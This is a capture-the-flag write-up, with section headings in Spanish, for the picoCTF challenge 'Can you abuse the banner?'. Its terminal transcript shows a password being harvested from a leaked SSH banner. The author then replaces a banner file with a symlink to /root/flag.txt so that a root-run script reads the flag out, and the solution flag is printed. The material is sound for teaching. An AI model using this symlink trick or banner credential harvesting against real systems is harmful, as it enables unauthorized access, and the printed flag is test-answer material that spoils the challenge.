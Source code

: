 Descripción
	Can you abuse the banner?The server has been leaking some crucial information on `tethys.picoctf.net 52459`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 55654`. From the above information abuse the machine and find the flag in the /root directory.
	
Solución
	
	┌──(kali㉿DESKTOP-B014NUV)-[~]
	└─$ nc tethys.picoctf.net 52459
	SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
	^C
	
	┌──(kali㉿DESKTOP-B014NUV)-[~]
	└─$ nc tethys.picoctf.net 55654
	*************************************
	**************WELCOME****************
	*************************************
	
	what is the password?
	My_Passw@rd_@1234
	What is the top cyber security conference in the world?
	DEFCON
	the first hacker ever was known for phreaking(making free phone calls), who was it?
	John Draper
	player@challenge:~$ ls -al
	ls -al
	total 20
	drwxr-xr-x 1 player player   20 Mar  9  2024 .
	drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
	-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
	-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
	-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
	-rw-r--r-- 1 player player  114 Feb  7  2024 banner
	-rw-r--r-- 1 root   root     13 Feb  7  2024 text
	player@challenge:~$ cat banner
	cat banner
	*************************************
	**************WELCOME****************
	*************************************
	player@challenge:~$ cat text
	cat text
	keep digging
	player@challenge:~$ ls -al /root
	ls -al /root
	total 16
	drwxr-xr-x 1 root root    6 Mar  9  2024 .
	drwxr-xr-x 1 root root   29 Oct 12 02:45 ..
	-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
	-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
	-rwx------ 1 root root   46 Mar  9  2024 flag.txt
	-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
	player@challenge:~$ cat /root/script.py
	cat /root/script.py
	
	import os
	import pty
	
	incorrect_ans_reply = "Lol, good try, try again and good luck\n"
	
	if __name__ == "__main__":
	    try:
	      with open("/home/player/banner", "r") as f:
	        print(f.read())
	    except:
	      print("*********************************************")
	      print("***************DEFAULT BANNER****************")
	      print("*Please supply banner in /home/player/banner*")
	      print("*********************************************")
	
	try:
	    request = input("what is the password? \n").upper()
	    while request:
	        if request == 'MY_PASSW@RD_@1234':
	            text = input("What is the top cyber security conference in the world?\n").upper()
	            if text == 'DEFCON' or text == 'DEF CON':
	                output = input(
	                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
	                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
	                    scmd = 'su - player'
	                    pty.spawn(scmd.split(' '))
	
	                else:
	                    print(incorrect_ans_reply)
	            else:
	                print(incorrect_ans_reply)
	        else:
	            print(incorrect_ans_reply)
	            break
	
	except:
	    KeyboardInterrupt
	
	player@challenge:~$ rm /home/player/banner
	rm /home/player/banner
	player@challenge:~$ ln -s /root/flag.txt /home/player/banner
	ln -s /root/flag.txt /home/player/banner
	player@challenge:~$ ^C
	
	┌──(kali㉿DESKTOP-B014NUV)-[~]
	└─$ nc tethys.picoctf.net 55654
	picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_b3ee718e}
	
Notas adicionales
	
	
Referencias
	
	